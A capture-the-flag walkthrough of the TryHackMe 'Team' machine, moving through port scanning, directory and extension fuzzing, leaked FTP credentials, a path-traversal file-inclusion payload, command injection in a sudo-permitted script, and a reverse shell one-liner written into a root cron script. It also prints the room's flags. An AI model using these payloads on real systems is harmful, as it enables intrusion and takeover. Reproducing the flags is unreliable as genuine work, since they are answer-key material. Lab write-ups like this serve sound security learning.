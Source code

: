 > Team

**export IP=10.10.186.114**

# Nmap

nmap -sC -sV -T4 -Pn -p- -vv -oN nmap/initial $IP

```
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
```

# Gobuster

sudo gobuster dir -u http://team.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x txt,php,sql,js,bin,cgi,zip -o gobuster/initial

```
/images (Status: 301)
/scripts (Status: 301)
/assets (Status: 301)
/robots.txt (Status: 200)
```

We can see somtheing in nmap result title. 

`<title>Apache2 Ubuntu Default Page: It works! If you see this add 'team.thm' to your hosts!</title>`

Adding team.thm to our etc/hosts we can find a new site. Running gobuster again. Searching through robots.txt we got an entry `dale`. Looks like an username and we got ftp running. Why don't we try.

# Gobuster /scripts

sudo gobuster dir -u http://team.thm/scripts -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x txt,php,sql,js,bin,cgi,zip -o gobuster/scripts

```
script.txt
``` 

It has an interesting comment 

```
# Updated version of the script
# Note to self had to change the extension of the old "script" in this folder, as it has creds in
```

We have a dead end. Let's try to fuzz for extensions using SecLists `extension-common.txt`. But didn't return anything. Let's try with `extensions-test.txt`, but we have to remove all `test.` strings to cut for fuzzing extensions.

sed s'/^test.//g' extensions-test.txt > extensions-test.txt

And now we can fuzz for the old file.

wfuzz -c -z file,extensions-test.txt --hc 404,400 http://team.thm/scripts/script.FUZZ

```
.old
.txt
```

Let's try to download `http://team.thm/scripts/script.old`. And we have ftp user and password.

## FTP user

`ftpuser`:`T3@m$h@r3`

Logging in as ftpuser we got `New_site.txt`. 

```
Dale
	I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.

Gyles
```

Let's add dev.team.thm to our /etc/hosts. It prompts us a link `Place holder link to team share`.

Clicking the link we got url `http://dev.team.thm/script.php?page=teamshare.php`. Let's try for LFI `http://dev.team.thm/script.php?page=../../../../../../../../etc/passwd` and we got response.

Accessing `http://dev.team.thm/script.php?page=../../../../../../../../home/dale/user.txt` we can get user.txt

# user.txt

```
THM{6Y0TXHz7c2d}
```

We can try search for `sshd_config`. And we can find id_rsa in `view-source:http://dev.team.thm/script.php?page=../../../../../../../../etc/ssh/sshd_config`.

ssh -i id_rsa dale@$IP => We are in as dale.

sudo -l

```
User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```

/home/gyles/admin_checks

```
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null => looks like it acccepts all user entries

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```

sudo -u gyles /home/gyles/admin_checks

```
Reading stats.
Reading stats..
Enter name of person backing up the data: no
Enter 'date' to timestamp the file: bash
The Date is id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),1003(editors),1004(admin)
```

We are in as gyles.

## admin_checks 

```
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```

Looking at .bash_history of gyles we can find /opt/admin_stuff.

## /opt/admin_stuff/script.sh 

```
#!/bin/bash
#I have set a cronjob to run this script every minute


dev_site="/usr/local/sbin/dev_backup.sh"
main_site="/usr/local/bin/main_backup.sh"
#Back ups the sites locally
$main_site
$dev_site
```

We can look at the scripts.

```
ls -l /usr/local/sbin/dev_backup.sh
-rwxr-xr-x 1 root root 64 Jan 17 19:42 /usr/local/sbin/dev_backup.sh
ls -l /usr/local/bin/main_backup.sh
-rwxrwxr-x 1 root admin 65 Jan 17 20:36 /usr/local/bin/main_backup.sh
```

# Privilege Escalation

echo "bash -i >& /dev/tcp/10.9.X.X/1234 0>&1" > /usr/local/bin/main_backup.sh

# root.txt

```
THM{fhqbznavfonq}
```